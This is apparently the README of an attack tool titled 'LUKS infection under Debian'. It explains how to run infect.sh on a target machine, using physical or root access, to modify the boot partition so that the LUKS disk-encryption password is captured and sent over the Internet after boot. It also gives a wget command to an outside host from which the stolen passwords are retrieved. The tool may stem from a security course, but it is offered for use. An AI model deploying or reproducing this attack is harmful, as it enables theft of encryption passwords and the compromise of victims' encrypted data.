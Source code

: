 LUKS infection under Debian
===========================

## Requirements

- A physical access on the targeted device to boot as root on an USB key,
  or a root access on any Unix system on the device.
- The targeted device must use LUKS and a Debian-like operating system (you
  can try on other init based Unix system, but nothing is guaranteed...).


## Set up

Run `infect.sh` on the targeted device to automatically infect the boot
partition used by LUKS.
  
  
## Password retrieval

The password will be sent over the Internet 60 seconds after rc.local has been
executed (as long as the targeted device is connected).

It can be retrieved here:
  
    wget http://uuu.enseirb-matmeca.fr/~fmonjalet/secu/read.php
